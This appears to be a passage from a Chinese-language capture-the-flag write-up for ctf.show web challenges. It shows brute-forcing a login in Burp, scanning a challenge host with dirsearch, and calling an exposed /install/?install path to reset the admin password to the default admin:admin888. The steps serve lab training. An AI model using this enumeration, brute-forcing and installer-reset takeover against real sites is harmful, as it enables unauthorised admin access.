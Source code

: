 在到 bp 里爆破即可，账号密码为

```
admin:xy123
```

## web385

 `dirsearch` 扫描后台

```bash
python dirsearch.py -u http://4d688204-9695-477d-a17b-3de9b3425df4.challenge.ctf.show/ -w wordlisttest.txt
```

得到

```http
[14:09:38] 301 -  169B  - /install  ->  http://4d688204-9695-477d-a17b-3de9b3425df4.challenge.ctf.show/install/
```

<img src=".\图片\Snipaste_2023-08-08_14-11-01.png" alt="Snipaste_2023-08-08_14-11-01" style="zoom:80%;" />

接着跟随访问 `/install/?install` 来重置为默认密码

```
http://4d688204-9695-477d-a17b-3de9b3425df4.challenge.ctf.show/install/?install
```

<img src=".\图片\Snipaste_2023-08-08_14-12-13.png" alt="Snipaste_2023-08-08_14-12-13" style="zoom:67%;" />

接着访问后台地址，用默认账号密码登录

`admin:admin888`
